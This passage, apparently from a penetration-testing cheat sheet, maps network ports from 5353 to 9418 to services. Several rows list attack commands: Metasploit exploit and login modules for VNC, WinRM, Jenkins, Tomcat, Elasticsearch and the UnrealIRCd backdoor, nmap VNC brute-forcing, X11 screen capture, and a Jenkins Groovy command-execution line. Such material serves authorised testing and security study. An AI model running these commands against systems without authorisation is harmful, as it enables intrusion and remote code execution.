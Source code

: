 |5353||mDNS||
|5357||Mirosoft-HTTP API/2.0||
|5432||Postgresql||
|5555|tcp|hp data protector|msf > use exploit/windows/misc/hp_dataprotector_cmd_exec|
|5577||Flux LED||
|5601|tcp|kibana||
|5632||PCAnywhere||
|5672||RabbitMQ||
|5900|tcp|vnc|msf > use auxiliary/scanner/vnc/vnc_none_auth<BR>msf > use auxiliary/scanner/vnc/vnc_login <BR>msf > use exploit/multi/vnc/vnc_keyboard_exec<BR>nmap --script vnc-brute -p 5900 <host><BR>nmap --script vnc-info -p 5900 <host>|
|5901||vnc||
|5938||TeamViewer||
|5984||CouchDB||
|5985|tcp|winrm|msf >use exploit/windows/winrm/winrm_script_exec<BR>msf >use auxiliary/scanner/winrm/winrm_auth_methods<BR>msf >use auxiliary/scanner/winrm/winrm_cmd<BR>msf >use auxiliary/scanner/winrm/winrm_login<BR>msf >use auxiliary/scanner/winrm/winrm_wql|
|6000|tcp|x11|xwd -root -screen -slient -display 192.168.1.108:0 > out.xwd<BR>convert out.xwd out.png|
|6379|tcp|redis|redis-cli -h 127.0.0.1 -p 6379<BR>msf >use auxiliary/scanner/redis/file_upload<BR>msf >use auxiliary/scanner/redis/redis_login<BR>use auxiliary/scanner/redis/redis_server|
|6380|tcp|redis||
|6082|tcp|varnish||
|6667|tcp|ircd backdoor|msf > use exploit/unix/irc/unreal_ircd_3281_backdoor|
|6881||BitTorrent||
|6969||TFTP,BitTorrent||
|7001|tcp|weblogic||
|8080|tcp|jekins|Jekins Console<BR>println "cmd.exe /c dir".execute().text<BR><BR>msf >use auxiliary/scanner/http/jenkins_enum<BR>msf >use exploit/multi/http/jenkins_script_console|
|8083|tcp|vestacp||
|8089|tcp|jboss||
|8101|tcp|apache karaf||
|8180|tcp|apache tomcat|msf > use exploit/multi/http/tomcat_mgr_deploy|
|8443|tcp|https||
|8443||Symantec SEP Manager||
|8554|tcp|rtsp||
|8649|tcp|ganglia||
|9009|tcp|Julia||
|9043|tcp|WebSpeher||
|9090||Symantec SEP Manager||
|9151|tcp|Tor Control||
|9160||Apache Cassandra||
|9200|tcp|elasticsearch|msf >use exploit/multi/elasticsearch/search_groovy_script|
|9418|tcp|git||